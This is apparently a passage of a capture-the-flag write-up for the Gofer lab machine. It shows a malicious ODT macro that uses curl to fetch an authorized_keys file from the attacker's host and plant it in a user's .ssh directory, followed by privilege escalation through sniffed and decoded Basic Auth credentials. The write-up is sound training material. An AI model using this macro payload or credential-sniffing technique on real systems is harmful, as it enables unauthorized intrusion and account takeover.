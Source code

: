 _We also used ffuf to uncover `index.php` endpoint and it's `url` parameter_

#### Crafting the Malicious ODT Document
Given the preference for .odt documents (as per the email), the next logical step was to create a malicious document that would allow for further exploitation. Using LibreOffice, an .odt document was crafted with a macro. The embedded macro was designed to fetch an authorized_keys file from an external server and place it into the jhudson user's SSH directory, potentially granting us SSH access to the machine using our public key.

#### Macro Details
The embedded macro within the .odt document is as follows:
```
Sub Main
 Shell("curl http://10.10.14.27:8081/authorized_keys -o /home/jhudson/.ssh/authorized_keys")
End Sub
```
This script, when executed, will reach out to our server at http://10.10.14.27:8081/ to fetch the authorized_keys file. This file contains the public SSH key of the attacker. By placing this key into the jhudson user's .ssh directory, it allows the attacker to SSH into the machine as the jhudson user without needing a password.

### Privilege Escalation

#### Analyzing the System with linpeas.sh

Once inside the machine as the jhudson user, the next goal was to escalate privileges. For this, linpeas.sh was used, a popular script that checks for potential paths to escalate privileges on Linux systems. While the script provided multiple points of interest, one particular finding stood out: the presence of tcpdump on the system.


#### Capturing Network Traffic with tcpdump

Leveraging the tcpdump utility, network traffic was captured to observe any interesting or revealing information. Among the traffic, a notable HTTP request was observed:
```
GET /index.php?url= HTTP/1.1
Host: proxy.gofer.htb
Authorization: Basic dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=
```
The Authorization header contained a Base64-encoded value.

#### Decoding Credentials

Decoding the Base64 value dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk= revealed credentials in the format username:password, which turned out to be Tom's (tbuckley) credentials.

#### SSH as Tom

Using Tom's credentials, another SSH login attempt was made:
```
ssh tbuckley@gofer.htb
```
_It's noteworthy that while the previously compromised user, jhudson, had access to the machine, they lacked the necessary privileges to execute certain binaries. This made escalating to tbuckley essential, as it provided the required permissions._

